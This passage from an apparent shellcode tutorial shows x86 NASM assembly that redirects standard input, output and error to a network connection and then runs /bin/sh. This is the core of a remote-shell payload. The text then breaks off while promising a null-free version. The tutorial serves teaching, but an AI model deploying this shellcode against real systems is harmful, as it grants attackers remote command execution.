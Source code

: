 ```nasm
	mov eax, 0x3f		; dup2, 63
	mov ebx, esi		; connfd
	mov ecx, 0x0		; stdin
	int 0x80


        ; int dup2(int oldfd, int newfd)
        ; eax = 0x3f (dup2)
        ; ebx = connfd
        ; ecx = 0x1

	mov eax, 0x3f		; dup2, 63
	mov ebx, esi		; connfd
	mov ecx, 0x1		; stdout
	int 0x80


        ; int dup2(int oldfd, int newfd)
        ; eax = 0x3f (dup2)
        ; ebx = connfd
        ; ecx = 2

	mov eax, 0x3f		; dup2, 63
	mov ebx, esi		; connfd
	mov ecx, 0x2		; stderr
	int 0x80


        ; int execve(const char *filename, char *const argv[], char *const envp[])
        ; eax = 0xb
        ; ebx = [esp +8]
        ; ecx = esp
        ; edx = [esp +4]
        ; esp => |--[esp +8]--|0x00000000|0x2f62696e|0x2f2f7368|0x00000000|
        ;                                    /bin       //sh

	push 0x0
        push 0x68732f2f
        push 0x6e69622f
	mov ebx, esp
	push 0x0
	mov edx, esp
	push ebx
	mov ecx, esp
	mov eax, 0xb
	int 0x80
```

Again, one might notice that there are a lot of nulls in this shellcode.  We can take steps to mitigate this by replacing various null-producing commands.  Once complete, the shellcode might look something like this:
